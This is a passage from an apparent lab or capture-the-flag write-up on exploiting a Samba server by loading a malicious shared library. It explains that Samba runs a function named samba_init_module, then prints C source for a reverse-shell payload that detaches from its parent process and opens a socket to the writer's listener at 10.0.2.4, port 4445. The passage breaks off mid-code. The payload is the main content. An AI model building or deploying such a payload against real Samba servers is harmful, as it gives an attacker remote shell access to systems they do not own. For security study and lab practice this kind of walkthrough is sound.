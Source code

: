 Investigating the error and the already created bind shell a few things must be done in order to make this work. First the SMB will try to search for a function named samba_init_module. This is where the execution will start. In case this function does not appear in the code, then the same error will occur as shown in the picture. In the bindshell payload we can also see a detachFromParent() function. These should be implemented as well to make sure that the exploit will not hang and the connection can be received without fail. <br>
We only have one thing to add. That is the IP and the Port that we want to connect back to. Here I checked my IP with ifconfig and added that as listening host and 4445 as listening port
The final reverse shell code:
<br>
```

#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <stdlib.h>
#include <sys/stat.h>


#define REMOTE_ADDR "10.0.2.4"
#define REMOTE_PORT 4445

static void detachFromParent(void) {
    pid_t pid, sid;

    if ( getppid() == 1 ){
        return;
    }

    pid = fork();

    if (pid < 0) {
        exit(EXIT_FAILURE);
    }

    if (pid > 0) {
        exit(EXIT_SUCCESS);
    }

    umask(0);

    sid = setsid();
    if (sid < 0) {
        exit(EXIT_FAILURE);
    }

    if ((chdir("/")) < 0) {
        exit(EXIT_FAILURE);
    }

}

int samba_init_module(void)
{
    detachFromParent();
    struct sockaddr_in sa;
    int s;

    sa.sin_family = AF_INET;
    sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    sa.sin_port = htons(REMOTE_PORT);

```